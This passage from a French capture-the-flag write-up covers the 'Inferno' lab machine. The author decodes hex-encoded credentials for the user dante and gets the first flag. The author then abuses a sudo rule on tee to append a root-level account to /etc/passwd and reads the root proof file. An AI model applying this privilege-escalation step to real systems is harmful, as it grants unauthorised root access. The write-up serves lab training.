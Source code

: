 Je l'ai décodé via [Hex decoder: Online hexadecimal to text converter - cryptii](https://cryptii.com/pipes/hex-decoder)

Dans l'output, on trouve les identifiants `dante:V1rg1l10h3lpm3` qui permettent de faire un `su` pour `dante`.

J'obtiens le premier flag :

```console
dante@Inferno:~$ cat local.txt 
77f6f3c544ec0811e2d1243e2e0d1835
```

L'utilisateur peut exécuter `tee` avec les droits `root`. J'utilise cette permission pour rajouter un utilisateur privilégié au système :

```
dante@Inferno:~$ sudo -l
Matching Defaults entries for dante on Inferno:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dante may run the following commands on Inferno:
    (root) NOPASSWD: /usr/bin/tee
dante@Inferno:~$ echo devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh | sudo /usr/bin/tee -a /etc/passwd
devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh
dante@Inferno:~$ su devloop
Password: 
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
proof.txt
# cat proof.txt


 (        )  (          (        )     )   
 )\ )  ( /(  )\ )       )\ )  ( /(  ( /(   
(()/(  )\())(()/(  (   (()/(  )\()) )\())  
 /(_))((_)\  /(_)) )\   /(_))((_)\ ((_)\   
(_))   _((_)(_))_|((_) (_))   _((_)  ((_)  
|_ _| | \| || |_  | __|| _ \ | \| | / _ \  
 | |  | .` || __| | _| |   / | .` || (_) | 
|___| |_|\_||_|   |___||_|_\ |_|\_| \___/ 


Congrats!

You've rooted Inferno!

77f6f3c544ec0811e2d1243e2e0d1835

mindsflee

https://www.buymeacoffe.com/mindsflee
```
